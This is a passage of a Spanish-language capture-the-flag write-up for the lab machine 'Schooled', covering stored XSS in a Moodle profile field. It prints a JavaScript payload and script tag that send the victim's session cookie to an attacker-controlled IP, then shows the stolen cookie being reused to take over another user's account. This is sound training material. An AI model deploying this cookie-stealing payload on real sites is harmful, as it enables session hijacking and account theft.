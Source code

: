 Se procede a editar nuestro perfil

En la sección `Moodle Net Profile` probando si existe la vulnerabilidad de `XSS`

![Untitled](/assets/img/Schooled/Pasted image 20240330140640.png)

Obteniendo:

![Untitled](/assets/img/Schooled/Pasted image 20240330140658.png)

Se comprueba que es vulnerable para un ataque de `XSS`

## Explotación de vulnerabilidades

### XSS

Se va a tratar de explotar la vulnerabilidad `XSS` para lo cual en nuestra máquina atacante levantaremos un servidor web con Python el cual estará compartiendo un archivo `pwned.js` el que contendrá:

```bash
var request = new XMLHttpRequest();
request.open('GET', 'http://10.10.14.11/?cookie=' + document.cookie, false);
request.send();
```

Este archivo tiene un contenido en `java script` el cual tiene instrucciones para obtener la cookie del usuario que lo ejecute

En el campo `Moodle Net Profile`

`<script src="http://10.10.14.11/pwned.js"></script>`

![Untitled](/assets/img/Schooled/Pasted image 20240318172845.png)

Obteniendo:

![Untitled](/assets/img/Schooled/Pasted image 20240318172928.png)

Se obtiene una `cookie` se procede a guardar en nuestro navegador para verificar si se puede ganar acceso como otro usuario:

```bash
##Cookie Manuel Phillips
cookie=MoodleSession=d97ffqp8fl8f0rakl900qp5bh9
```

Obteniendo:

![Untitled](/assets/img/Schooled/Pasted image 20240318173413.png)

Se gana acceso como el usuario `Manuel Philips`

Se procede a seguir enumerando el servicio

Revisando versión → Github → `http://moodle.schooled.htb/moodle/theme/upgrade.txt`

![Untitled](/assets/img/Schooled/Pasted image 20240318174028.png)

